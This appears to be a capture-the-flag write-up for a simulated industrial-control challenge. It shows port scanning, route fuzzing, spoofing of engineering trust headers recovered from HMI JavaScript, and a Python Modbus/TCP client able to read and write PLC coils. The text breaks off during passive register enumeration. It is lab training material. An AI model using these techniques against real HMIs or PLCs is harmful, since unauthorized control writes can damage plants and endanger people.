





        <font size="10">Ash-Vault Interlock</font>

12<sup>th</sup> June 2026

Prepared By: Lean

Challenge Author(s): Lean

Difficulty: <font color=red>Hard</font>

Classification: Official

# [Synopsis](#synopsis)

Enumerate HMI and Modbus/TCP, bypass engineering headers, recover ladder logic, map PLC signals, drain and stabilize the process, reset the latch, hold the seal command, and recover the flag from the AVX900 alarm.

## Description

Stormbound engineers reached the lower Crownspire brineworks after alarms echoed through the Ash Vault tunnels. The old seal is still guarded by a forgotten HMI and interlock controller. Regain enough control to stop the unstable automatic cycle, manipulate the brine process into the seal-ready state, and trigger the final seal alarm that reveals the checkpoint token in the alarm table.

## Skills Required

- Basic TCP service enumeration
- Basic HTTP route and client-side JavaScript enumeration
- Basic Modbus/TCP request and response handling
- Ability to reason from HMI process values, actuator states, and alarms
- Basic ladder logic reading
- Basic Python scripting for raw TCP protocols

## Skills Learned

- Treating an unauthenticated HMI mimic as process evidence
- Identifying a spoofable engineering-workstation trust path from HTTP behavior and client JavaScript
- Using Modbus device identification to confirm the simulated PLC model
- Building a coil and holding-register map from passive observation and controlled fuzzing
- Translating ladder XIC, XIO, latch, permissive, and timer logic into a safe process-control sequence
- Coordinating drain, vent, pump, reset, and seal commands so the final flag appears as an alarm instead of a register value

## Application Overview

The first visible application surface is the unauthenticated HMI process screen. It shows the ash-vault brine vessel, live process values, actuator states, interlock lamps, and the alarm table that later carries the flag.



## Step 1 - Service Discovery

I started with a TCP scan.

```bash
nmap -sT -Pn -p 1502,18080 127.0.0.1
```

Output.

```text
PORT      STATE SERVICE
1502/tcp  open  shivadiscovery
18080/tcp open  unknown
```

The important result is two exposed services.

- `18080/tcp`: web HMI
- `1502/tcp`: Modbus/TCP PLC simulator on a nonstandard local test port

## Step 2 - First HMI Observation

Opening the HMI shows a visible process even without login. The initial state is already abnormal. AUTO mode is active, the vessel is high level, pressure is high, the feed valve is open, the pump is running, and the alarm table shows the pressure latch and high level alarms.

The outside context I used at this point was HMI/process-mimic behavior. MITRE describes an HMI as the system operators use to monitor real-time process status and perform control functions, and process mimic displays normally show equipment status, flow direction, tank levels, valve positions, pump states, and alarm conditions. Those references explain why I treated the unauthenticated screen as real process evidence rather than decorative UI.

https://attack.mitre.org/assets/A0002/

https://tecogrp.com/products/scada-automation/process-mimic/

Matching raw signal snapshot after a few AUTO scans.

```json
{
  "coils_0_7": [1, 0, 1, 0, 0, 1, 0, 0],
  "discrete_0_11": [1, 0, 1, 0, 0, 1, 1, 0, 0, 0, 1, 0],
  "holding_0_11": [965, 765, 0, 3, 0, 9, 201, 7, 120, 0, 0, 0]
}
```

What these fields mean before any engineering access.

- AUTO is active.
- FV101 feed is open.
- P401 pump is running.
- PT301 pressure-high latch is active.
- LT204 process level is high.
- The HMI status endpoint gives compact arrays, not a public register map.

The public status endpoint looks like this.

```bash
curl -s http://127.0.0.1:18080/status.json
```

Raw request.

```http
GET /status.json HTTP/1.1
Host: 127.0.0.1:18080
Connection: close

```

Example raw response, with live values, alarms, and scan counter changing between runs.

```http
HTTP/1.0 200 OK
Server: BaseHTTP/0.6 Python/3.12.3
Content-Type: application/json
Content-Length: varies

{"m":"AUTO","p":[100.0,76.6,12.0,6.4,0.0,0.0,9.0,21.0,3.3,38.6,1.0],"o":[true,false,false,true,false],"s":[false,true,false,false,true,false,false],"t":[0,201,257],"a":["PT301 pressure-high latch active","LT204 vessel level high"]}
```

The compact JSON is enough to understand the plant symptom, but not enough to solve the challenge. The `m` field is the mode, `p` is process telemetry, `o` is output state, `s` is interlock state, `t` is scan/trip telemetry, and `a` is alarm text. From the visible HMI labels and this JSON, I can line up `p[0]` with level, `p[1]` with pressure, `p[2]` with the stuck AUTO level raw value, `o[0]` with FV101, `o[3]` with P401, `s[1]` with the pressure latch, and `s[4]` with the LT204 stuck-low condition.

That explains the failure mode. The real level is high, but the AUTO level raw value is still low, so AUTO continues to feed the vessel. It does not explain which PLC coils to write, when a reset is accepted, or why the final alarm requires a timed seal proof.

At this point I do not yet know which Modbus addresses control anything. The HMI tells me what the physical process is doing, not how to command it.

## Step 3 - HTTP Enumeration

I enumerated the HMI routes with normal GET/POST requests.

Some endpoint discovery does require a wordlist. I used SecLists, but first verified that the chosen list actually contains the stems needed for this challenge. The current upstream file name is `DirBuster-2007_directory-list-2.3-small.txt`.

```bash
curl -L \
  https://raw.githubusercontent.com/danielmiessler/SecLists/master/Discovery/Web-Content/DirBuster-2007_directory-list-2.3-small.txt \
  -o /tmp/DirBuster-2007_directory-list-2.3-small.txt

for word in login status alarms operator ladder manifest api engineering; do
  rg -x "$word" /tmp/DirBuster-2007_directory-list-2.3-small.txt
done
```

The rendered UI does not show hosted file names, and the useful engineering document paths return `403`, not `200`, so I kept forbidden responses instead of filtering them out. A normal 200-only web fuzz would miss the important protected routes.

```bash
WORDLIST=/tmp/DirBuster-2007_directory-list-2.3-small.txt

feroxbuster -u http://127.0.0.1:18080 \
  -w "$WORDLIST" \
  -x json,log,txt \
  -s 200,401,403
```

Useful root-level hits.

```text
login                   [Status: 200, Size: 1999]
status.json             [Status: 200, Size: varies]
alarms                  [Status: 200, Size: varies]
operator.log            [Status: 403, Size: 254]
ladder.txt              [Status: 403, Size: 254]
```

The root page source then revealed `/static/hmi.js`. The wordlist validation did not include `hmi`, so I treated that script path as page-source enumeration rather than a wordlist hit.

After the 403 body, route names, and JavaScript names pointed at engineering workstation trust, I fuzzed the likely engineering API prefix with the same validated SecLists file and again kept `403`.

```bash
ffuf -w "$WORDLIST" -u http://127.0.0.1:18080/api/engineering/FUZZ -mc all -fc 404
```

Useful API hits.

```text
manifest                [Status: 403, Size: 254]
ladder                  [Status: 403, Size: 254]
```

```python
#!/usr/bin/env python3
from urllib.error import HTTPError
from urllib.request import Request, urlopen

HOST = "127.0.0.1"
HMI_PORT = 18080

def request(method, path, headers=None):
    req = Request(f"http://{HOST}:{HMI_PORT}{path}", headers=headers or {}, method=method)
    try:
        with urlopen(req, timeout=5) as response:
            body = response.read().decode("utf-8", errors="replace")
            return response.status, dict(response.headers), body
    except HTTPError as error:
        body = error.read().decode("utf-8", errors="replace")
        return error.code, dict(error.headers), body

def show(method, path, limit=900):
    status, headers, body = request(method, path)
    print(f"$ {method} {path}")
    print(f"< HTTP {status}")
    for key in ("Content-Type", "WWW-Authenticate"):
        if key in headers:
            print(f"< {key}: {headers[key]}")
    print((body[:limit] + ("\n...[trimmed]..." if len(body) > limit else "")).rstrip())
    print()

for path in ("/", "/login", "/status.json", "/alarms", "/operator.log", "/ladder.txt", "/api/engineering/manifest"):
    show("GET", path)

show("POST", "/login")

status, _, js = request("GET", "/static/hmi.js")
print("$ GET /static/hmi.js | grep engineering clues")
print(f"< HTTP {status}")
for line in js.splitlines():
    if (
        "HMI_HEADERS" in line
        or "X-Requested-With" in line
        or "ENGINEERING_SOURCE_HEADER" in line
        or "X-Engineering-Station" in line
        or "TRUSTED_ENGINEERING_STATION" in line
        or "AVX-EWS-01" in line
        or "status.json" in line
    ):
        print(line)
```

Useful route behavior.

```text
GET /status.json                 -> 200 compact process state
GET /alarms                      -> 200 public alarm text
GET /operator.log                -> 403 engineering document access denied
GET /ladder.txt                  -> 403 engineering document access denied
GET /api/engineering/manifest    -> 403 engineering document access denied
POST /login                      -> 401 LDAP bridge unavailable
```

Raw enumeration requests.

```http
GET / HTTP/1.1
Host: 127.0.0.1:18080
Connection: close

```

```http
GET /login HTTP/1.1
Host: 127.0.0.1:18080
Connection: close

```

```http
GET /operator.log HTTP/1.1
Host: 127.0.0.1:18080
Connection: close

```

```http
GET /ladder.txt HTTP/1.1
Host: 127.0.0.1:18080
Connection: close

```

```http
GET /api/engineering/manifest HTTP/1.1
Host: 127.0.0.1:18080
Connection: close

```

```http
POST /login HTTP/1.1
Host: 127.0.0.1:18080
Content-Length: 0
Connection: close

```

Example raw response for `GET /` confirms the HMI title and page source without exposing hosted file names in the rendered UI.

```http
HTTP/1.0 200 OK
Server: BaseHTTP/0.6 Python/3.12.3
Content-Type: text/html; charset=utf-8
Content-Length: varies

<!doctype html>
<html>
<head>
  <meta charset="utf-8">
  <title>Asterion Controls AVX-470 Interlock PLC</title>
  <style>
    :root {
      --bg: #202529;
      --deck: #2c3338;
      --deck-dark: #171b1f;
      --screen: #0e1719;
      ...
```

`GET /login` returns the disabled engineering login page.

```http
HTTP/1.0 200 OK
Server: BaseHTTP/0.6 Python/3.12.3
Content-Type: text/html; charset=utf-8
Content-Length: 1999

<!doctype html>
<html>
<head>
  <meta charset="utf-8">
  <title>Ash-Vault Engineering Login</title>
  ...
```

The unauthenticated engineering document requests returned the same raw 403 response, which names the failed trust model.

```http
HTTP/1.0 403 Forbidden
Server: BaseHTTP/0.6 Python/3.12.3
Content-Type: application/json
Content-Length: 254
WWW-Authenticate: AVX-EWS source validation required

{
  "auth_scheme": "AVX-EWS source validation",
  "details": [
    "HMI request trust header rejected",
    "engineering workstation source validation failed"
  ],
  "error": "engineering document access denied",
  "login_state": "LDAP bridge offline"
}
```

`POST /login` confirms normal password login is not the intended path.

```http
HTTP/1.0 401 Unauthorized
Server: BaseHTTP/0.6 Python/3.12.3
Content-Type: text/plain; charset=utf-8
Content-Length: 71
WWW-Authenticate: AVX-HMI local login unavailable

LDAP bridge unavailable. Use local engineering workstation trust path.
```

The UI itself does not show hosted file names. I got the web route clues from directory-list fuzzing, normal black-box enumeration, and the page source. The root page includes `/static/hmi.js`, so I inspected the client JavaScript.

```bash
curl -s http://127.0.0.1:18080/static/hmi.js | grep -E 'X-Requested-With|X-Engineering-Station|AVX-EWS|status.json'
```

Raw request.

```http
GET /static/hmi.js HTTP/1.1
Host: 127.0.0.1:18080
Connection: close

```

Raw response excerpt.

```text
HTTP/1.0 200 OK
Server: BaseHTTP/0.6 Python/3.12.3
Content-Type: application/javascript; charset=utf-8
Content-Length: 33368

(() => {
const HMI_HEADERS = {
  "X-Requested-With": "AVX-HMI"
};
const ENGINEERING_SOURCE_HEADER = "X-Engineering-Station";
const TRUSTED_ENGINEERING_STATION = "AVX-EWS-01";
const response = await fetch("/status.json", {
  headers: HMI_HEADERS
  ...
```

That answers how to know which headers to use. They are exposed in the shipped HMI JavaScript, and the 403 response tells me the server is validating a local engineering workstation source.

The important detail is that the two headers have different roles. `X-Requested-With` with value `AVX-HMI` makes the request look like the normal HMI AJAX client, while `X-Engineering-Station` with value `AVX-EWS-01` satisfies the engineering workstation source check named in the 403 response. Sending only one of them is not enough. The protected engineering endpoints require both the HMI request marker and the trusted station marker.

## Step 4 - Engineering Header Bypass

With the recovered headers, the engineering manifest opens.

This is the web attack in the chain. HTTP headers are client-supplied request fields, so applications should not treat them as authentication unless a trusted intermediary enforces them. I used OWASP's note on spoofable HTTP headers here to confirm that the trust values recovered from JavaScript could be sent directly by my client.

https://owasp.org/www-community/pages/attacks/ip_spoofing_via_http_headers

```bash
curl -s \
  -H 'X-Requested-With: AVX-HMI' \
  -H 'X-Engineering-Station: AVX-EWS-01' \
  http://127.0.0.1:18080/api/engineering/manifest
```

Raw request.

```http
GET /api/engineering/manifest HTTP/1.1
Host: 127.0.0.1:18080
X-Requested-With: AVX-HMI
X-Engineering-Station: AVX-EWS-01
Connection: close

```

Raw response.

```http
HTTP/1.0 200 OK
Server: BaseHTTP/0.6 Python/3.12.3
Content-Type: application/json
Content-Length: 296

{
  "device": "Asterion AVX-470 Interlock PLC",
  "documents": [
    {
      "content_type": "text/plain",
      "name": "ladder",
      "path": "/api/engineering/ladder"
    }
  ],
  "product_code": "AVX-470",
  "revision": "4.7.12",
  "station": "AVX-EWS-01",
  "vendor": "Asterion Controls"
}
```

Screenshot of the denied state, before adding headers.


The same headers also expose the ladder extract and operator log.

```bash
curl -s \
  -H 'X-Requested-With: AVX-HMI' \
  -H 'X-Engineering-Station: AVX-EWS-01' \
  http://127.0.0.1:18080/api/engineering/ladder
```

Raw request.

```http
GET /api/engineering/ladder HTTP/1.1
Host: 127.0.0.1:18080
X-Requested-With: AVX-HMI
X-Engineering-Station: AVX-EWS-01
Connection: close

```

Raw response excerpt.

```http
HTTP/1.0 200 OK
Server: BaseHTTP/0.6 Python/3.12.3
Content-Type: text/plain; charset=utf-8
Content-Length: 4439

ASTERION CONTROLS AVX-470 LADDER EXPORT
Program: AVX47_ASH_VAULT_REV4_7
Task: FAST_1S
Routine: RLL_ASH_VAULT_MAIN
Controller: Asterion Controls AVX-470 Interlock PLC

Notation:
  --| |-- XIC, contact closed when bit is true
  --|/|-- XIO, contact closed when bit is false
  ...
```

```bash
curl -s \
  -H 'X-Requested-With: AVX-HMI' \
  -H 'X-Engineering-Station: AVX-EWS-01' \
  http://127.0.0.1:18080/operator.log
```

Raw request.

```http
GET /operator.log HTTP/1.1
Host: 127.0.0.1:18080
X-Requested-With: AVX-HMI
X-Engineering-Station: AVX-EWS-01
Connection: close

```

Raw response.

```http
HTTP/1.0 200 OK
Server: BaseHTTP/0.6 Python/3.12.3
Content-Type: text/plain; charset=utf-8
Content-Length: 911

2026-06-01 00:10:18Z MAINT: LT204 split range fault confirmed. AUTO raw channel holds at 12.0%.
2026-06-01 00:11:02Z OPS: AUTO keeps FV101 energized. Do not trust the auto level raw value.
2026-06-01 00:11:49Z NET: AVX handoff restored local trust for engineering station AVX-EWS-01 while LDAP remains offline.
2026-06-01 00:12:44Z ENG: Manual reset rung is in routine RLL_ASH_VAULT_MAIN rung 044; trend display alone is not enough for a reset attempt.
2026-06-01 00:13:06Z ENG: Vault seal rung uses the same routine, rungs 052-055; confirm all XIC/XIO contacts and the seal timer before asserting C00007.
2026-06-01 00:14:27Z OPS: Seal-token mirror remains inhibited until ASH_VAULT_SEAL_CMD proves stable.
RUNTIME PLC boot: Ash-Vault brine interlock image AVX-4.7 loaded.
RUNTIME ALARM: PT301 pressure high latch was set before remote handoff.
RUNTIME ENG: authenticated engineering document access observed.
```

The operator log no longer gives the reset and seal windows directly. It tells us the process fault and points to the exact recovered ladder routine that must be read.

## Step 5 - Modbus Device Identification

Next I confirmed the PLC identity over Modbus function `43/14` Read Device Identification.

For this step I used the official Modbus application protocol specification to identify function `43/14` and the Modbus data model. I also used the network architecture diagram to keep the HMI and PLC roles separate while enumerating the two exposed services.

https://www.modbus.org/docs/Modbus_Application_Protocol_V1_1b3.pdf


Source page: https://commons.wikimedia.org/wiki/File:MODBUS_Network_Architecture.svg

The reusable Modbus/TCP helper starts here, because this is the first point where I have to talk to the PLC service directly. It builds the MBAP header, sends PDUs, parses exception responses, and exposes the read/write operations used in the next enumeration steps.

```python
#!/usr/bin/env python3
import socket
import struct

HOST = "127.0.0.1"
MODBUS_PORT = 1502
UNIT_ID = 1

def recvall(sock, size):
    data = bytearray()
    while len(data) < size:
        chunk = sock.recv(size - len(data))
        if not chunk:
            raise RuntimeError("connection closed")
        data.extend(chunk)
    return bytes(data)

def mbap_frame(transaction, pdu):
    return struct.pack(">HHHB", transaction, 0, len(pdu) + 1, UNIT_ID) + pdu

def write_multiple_coils_pdu(address, values):
    payload = bytearray((len(values) + 7) // 8)
    for index, value in enumerate(values):
        if value:
            payload[index // 8] |= 1 << (index % 8)
    return b"\x0f" + struct.pack(">HHB", address, len(values), len(payload)) + bytes(payload)

class ModbusClient:
    def __init__(self, host, port):
        self.host = host
        self.port = port
        self.tx = 0
        self.sock = None

    def __enter__(self):
        self.sock = socket.create_connection((self.host, self.port), timeout=3)
        self.sock.settimeout(3)
        return self

    def __exit__(self, exc_type, exc, tb):
        self.sock.close()

    def request(self, pdu):
        self.tx = (self.tx + 1) & 0xffff
        self.sock.sendall(mbap_frame(self.tx, pdu))
        header = recvall(self.sock, 7)
        tx, proto, length, unit = struct.unpack(">HHHB", header)
        if tx != self.tx or proto != 0 or unit != UNIT_ID:
            raise RuntimeError("bad Modbus/TCP header")
        response = recvall(self.sock, length - 1)
        if response[0] & 0x80:
            raise RuntimeError(f"Modbus exception fc={response[0] ^ 0x80} code={response[1]}")
        return response

    def read_bits(self, function, address, quantity):
        response = self.request(bytes([function]) + struct.pack(">HH", address, quantity))
        payload = response[2:2 + response[1]]
        return [bool(payload[i // 8] & (1 << (i % 8))) for i in range(quantity)]

    def read_holding(self, address, quantity):
        response = self.request(b"\x03" + struct.pack(">HH", address, quantity))
        payload = response[2:2 + response[1]]
        return [struct.unpack(">H", payload[i:i + 2])[0] for i in range(0, len(payload), 2)]

    def write_coils(self, address, values):
        self.request(write_multiple_coils_pdu(address, values))

    def read_device_id(self):
        response = self.request(b"\x2b\x0e\x02\x00")
        count = response[6]
        offset = 7
        objects = {}
        for _ in range(count):
            object_id = response[offset]
            size = response[offset + 1]
            value = response[offset + 2:offset + 2 + size].decode("ascii", errors="replace")
            objects[object_id] = value
            offset += 2 + size
        return objects

with ModbusClient(HOST, MODBUS_PORT) as client:
    print("modbus device identification")
    for object_id, value in client.read_device_id().items():
        print(f"  object 0x{object_id:02x}: {value}")
```

Output from the device-identification probe.

```text
modbus device identification
  object 0x00: Asterion Controls
  object 0x01: AVX-470
  object 0x02: 4.7.12
  object 0x04: Ash-Vault Brine Interlock
  object 0x05: Asterion AVX-470 Interlock PLC
  object 0x06: Ash-Vault Interlock AVX-4.7
```

This matches the HMI title and confirms that the PLC brand/model is part of the Modbus device identity, not just web copy.

This matters because it ties the two exposed services together. The web UI says the controller is an Asterion AVX-470, and Modbus device identification returns the same vendor, model, revision, and application. That makes it reasonable to treat the HMI process state, the Modbus memory image, and the later ladder export as views of the same simulated PLC.

## Step 6 - Passive Modbus Enumeration

Using the `ModbusClient` helper from Step 5, I first read coils, discrete inputs, and holding registers without writing anything.

```python
with ModbusClient(HOST, MODBUS_PORT) as client:
    regs = client.read_holding(0, 16)
    coils = client.read_bits(1, 0, 16)
    discrete = client.read_bits(2, 0, 16)
    high = client.read_holding(100, 16)

print("holding registers 0..15")
for index, value in enumerate(regs):
    print(f"  H{index:05d} {value:5d} 0x{value:04x}")

print("coils 0..15")
for index, value in enumerate(coils):
    print(f"  C{index:05d} {int(value)}")

print("discrete inputs 0..15")
for index, value in enumerate(discrete):
    print(f"  I{index:05d} {int(value)}")

print("holding registers 100..115")
print("  " + " ".join(f"{value:04x}" for value in high))
```

Sample early output after a few AUTO scans. The level, pressure, alarm bitmap, and scan counter vary with timing.

```text
holding registers 0..15
  H00000   953 0x03b9
